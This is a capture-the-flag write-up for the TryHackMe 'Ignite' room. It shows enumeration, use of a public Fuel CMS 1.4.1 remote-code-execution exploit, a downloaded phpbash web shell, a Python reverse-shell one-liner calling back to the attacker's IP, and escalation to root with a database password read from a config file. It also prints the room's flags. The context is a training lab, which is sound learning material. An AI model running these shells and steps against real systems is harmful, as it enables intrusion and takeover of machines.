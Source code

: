## Ignite - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/ignite)

**Root it!**

<i>Root the box! Designed and created by DarkStar7471, built by Paradox.</i>

<i>Enjoy the room! For future rooms and write-ups, follow @darkstar7471 on Twitter.</i>

**IP: 10.10.30.6**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Web <br>

**Tools Used**: Nmap, Feroxbuster

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Firstly, I do Nmap and Feroxbuster for enumeration.
  ```
  nmap -A -p- 10.10.30.6 -> only 80 open, Apache httpd 2.4.18 ((Ubuntu))
  ```

  ```
  feroxbuster -u http://10.10.30.6/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

  [#>------------------] - 13m    67755/964214  3h      found:33      errors:57845  
  [#>------------------] - 13m     7697/87650   10/s    http://10.10.30.6/ 
  [#>------------------] - 13m     8094/87650   11/s    http://10.10.30.6/fuel/ 
  [#>------------------] - 13m     6802/87650   9/s     http://10.10.30.6/fuel/modules/ 
  [#>------------------] - 13m     6985/87650   9/s     http://10.10.30.6/assets/ 
  [#>------------------] - 13m     5474/87650   7/s     http://10.10.30.6/assets/images/ 
  [#>------------------] - 13m     5464/87650   7/s     http://10.10.30.6/assets/docs/ 
  [#>------------------] - 13m     5354/87650   7/s     http://10.10.30.6/assets/pdf/ 
  [#>------------------] - 13m     5831/87650   8/s     http://10.10.30.6/assets/css/ 
  [#>------------------] - 12m     5304/87650   7/s     http://10.10.30.6/assets/js/ 
  [#>------------------] - 12m     5273/87650   7/s     http://10.10.30.6/fuel/licenses/ 
  [#>------------------] - 12m     5339/87650   7/s     http://10.10.30.6/assets/cache/ 
  ```
  
- I also ran `nikto` but it only found `robots.txt` so yeah...

---

## ⚙️ Shell Access

- So I searched `fuel cms exploit` and found it immediately for version 1.4.1. Download the exploit and comment `proxy`, also delete `proxies=proxy` since you don't need proxy at all.<br>
[fuel CMS 1.4.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47138)

- To gain shell, simply use the exploit with python2. I saved mine exploit as `fuel_cms_exploit.py`, when you download it from `Exploits-DB` it will be saved as `47138.py`
  
  ```python2 fuel_cms_exploit.py```
  
- Perfect! I have shell but it's printing whole response after each command, so I started looking for a resolution to remove those responses.

- I found that `phpbash.php` will do exactly what I need, here's the link, download `.php` file to your Kali machine and then transfer it to the target machine.<br>
  [phpbash](https://github.com/Arrexel/phpbash/blob/master/phpbash.php)
  
  ```
  python3 -m http.server 80 -> my machine
  wget http://[YOUR-THM-IP]:80/phpbash.php -> target machine
  ```

- When it's done, go to: http://10.10.30.6/phpbash.php and you will have interactive shell! Pretty cool right? Now let's find some flags shall we!

---

## 🧍 User Privilege Escalation

- OK, getting user flag is always easy, just go through target system and you will find it. It's in the `/home/www-data/` directory.
  ```
  cat /home/www-data/flag.txt
  6470e394cbf6dab6a91682cc8585059b
  ```
  
- First one done, moving to escalation to get root flag.

---

## 👑 Root Privilege Escalation

- This one wasn't that hard to find. First thing what I did was to get shell on my actual terminal since it is easier for me to work there. Start a `netcat` listener and connect it with target machine.
  ```
  my machine -> nc -lvnp 7777
  target machine -> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR-THM-IP]",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
  
- Ok, awesome, I have shell in my terminal, let's change it to `putty`
  ```
  python -c 'import pty; pty.spawn("/bin/bash")'
  ctrl+Z -> backgrounds shell
  stty raw -echo;fg
  ```
  
- Now let's get root, when I did `sudo -l` it asked me for password and I also enumerated all writable files on machine
  ```
  find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

  144391 388 -rwsr-xr-- 1 root dip 394984 Jun 12 2018 /usr/sbin/pppd
  265987 20 -rwsr-xr-x 1 root root 18664 Mar 17 2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
  139989 16 -rwsr-xr-x 1 root root 14864 Jan 15 2019 /usr/lib/policykit-1/polkit-agent-helper-1
  142068 100 -rwsr-sr-x 1 root root 98440 Jan 29 2019 /usr/lib/snapd/snap-confine
  134963 44 -rwsr-xr-- 1 root messagebus 42992 Jan 12 2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  144205 12 -rwsr-sr-x 1 root root 10584 Oct 25 2018 /usr/lib/xorg/Xorg.wrap
  139780 420 -rwsr-xr-x 1 root root 428240 Jan 31 2019 /usr/lib/openssh/ssh-keysign
  135261 12 -rwsr-xr-x 1 root root 10232 Mar 27 2017 /usr/lib/eject/dmcrypt-get-device
  130720 40 -rwsr-xr-x 1 root root 40432 May 16 2017 /usr/bin/chsh
  131038 76 -rwsr-xr-x 1 root root 75304 May 16 2017 /usr/bin/gpasswd
  131440 40 -rwsr-xr-x 1 root root 39904 May 16 2017 /usr/bin/newgrp
  131613 24 -rwsr-xr-x 1 root root 23376 Jan 15 2019 /usr/bin/pkexec
  139620 12 -rwsr-xr-x 1 root root 10624 May 8 2018 /usr/bin/vmware-user-suid-wrapper
  131991 136 -rwsr-xr-x 1 root root 136808 Jul 4 2017 /usr/bin/sudo
  130718 52 -rwsr-xr-x 1 root root 49584 May 16 2017 /usr/bin/chfn
  131503 56 -rwsr-xr-x 1 root root 54256 May 16 2017 /usr/bin/passwd
  783517 40 -rwsr-xr-x 1 root root 40128 May 16 2017 /bin/su
  783491 44 -rwsr-xr-x 1 root root 44680 May 7 2014 /bin/ping6
  783465 140 -rwsr-xr-x 1 root root 142032 Jan 28 2017 /bin/ntfs-3g
  783490 44 -rwsr-xr-x 1 root root 44168 May 7 2014 /bin/ping
  783453 40 -rwsr-xr-x 1 root root 40152 May 16 2018 /bin/mount
  783537 28 -rwsr-xr-x 1 root root 27608 May 16 2018 /bin/umount
  783416 32 -rwsr-xr-x 1 root root 30800 Jul 12 2016 /bin/fusermount
  ```

- So, I did more enumeration in order to get root's password but couldn't do it, then I remembered that I saw database configuration somewhere on targets web page. When I visited database page I found the location of database!
  ```
  cat fuel/application/config/database.php  
  db['default'] = array(
          'dsn'   => '',
          'hostname' => 'localhost',
          'username' => 'root',
          'password' => 'mememe',
          'database' => 'fuel_schema',
          'dbdriver' => 'mysqli',
          'dbprefix' => '',
          'pconnect' => FALSE,
          'db_debug' => (ENVIRONMENT !== 'production'),
          'cache_on' => FALSE,
          'cachedir' => '',
          'char_set' => 'utf8',
          'dbcollat' => 'utf8_general_ci',
          'swap_pre' => '',
          'encrypt' => FALSE,
          'compress' => FALSE,
          'stricton' => FALSE,
          'failover' => array(),
          'save_queries' => TRUE
  );
  ```

- Perfect! That's it! Now I have root's password which is `mememe`, just need to get the flag now.
  ```
  su root
  mememe
  
  cat /root/root.txt
  b9bbcb33e11b80be759c4e844862482d 
  ```

---

## 🏁 Flags

- **User Flag**: `6470e394cbf6dab6a91682cc8585059b`
- **Root Flag**: `b9bbcb33e11b80be759c4e844862482d`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding root's password since I knew that I saw database configuration somewhere but couldn't remember where...`

- What did I learn?
  `Nothing new besides using phpbash.php which was cool tho.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
